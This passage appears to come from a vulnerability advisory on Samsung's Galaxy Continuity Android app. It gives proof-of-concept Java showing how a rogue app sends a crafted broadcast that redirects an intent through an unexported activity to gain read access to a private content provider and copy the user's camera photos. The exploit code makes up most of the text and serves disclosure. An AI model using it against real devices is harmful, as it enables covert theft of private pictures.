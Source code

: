 ```
                    if (input != null)
                    input.close();
                    if (output != null)
                    output.close();
                } catch (Exception e) {
                    e.printStackTrace();
                }
            }
        } catch (FileNotFoundException e) {
           e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

Second, the rogue application must send the following Broadcast, replacing "<target picture>" with the name of the picture found on the device, and "<rogue application package>" with the package name of the rogue application:

```
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.samsung.android.galaxycontinuity", "com.samsung.android.galaxycontinuity.manager.GlobalBroadcastReceiver"));
intent.setAction("com.samsung.android.galaxycontinuity.action.ACTION_FLOW_CONTENT_PENDING_INTENT"); 
Intent intent2 = new Intent();
intent2.setComponent(new ComponentName("<rogue application package>", " <rogue application package>.IntentProxyToContentProvider"));
intent2.setData(Uri.parse("content://com.samsung.android.galaxycontinuity.provider/external_files/DCIM/Camera/<target picture name>"));
intent2.setFlags(195);
Bundle bundle = new Bundle();
bundle.putParcelable("_data", intent2);
bundle.putString("ClassName", "com.samsung.android.galaxycontinuity.activities.ChooserDelegateActivity");
intent.putExtras(bundle); 
sendBroadcast(intent);
```

The above code will perform the following steps:

* Send a Broadcast to the exported Broadcast Receiver `com.samsung.android.galaxycontinuity.manager.GlobalBroadcastReceiver`
* The Broadcast Receiver opens the unexported Activity `com.samsung.android.galaxycontinuity.activities.ChooserDelegateActivity`
* The Activity passes permissions to read the unexported Content File Provider `com.samsung.android.galaxycontinuity.provider` to the rogue application's exported Activity mentioned earlier
* After successful exploitation, the targeted picture will be saved to the rogue application's "Files" private directory. Specifically, it will be saved to `/data/data/<rogue application package>/Files/yayoutputyay.jpg`.
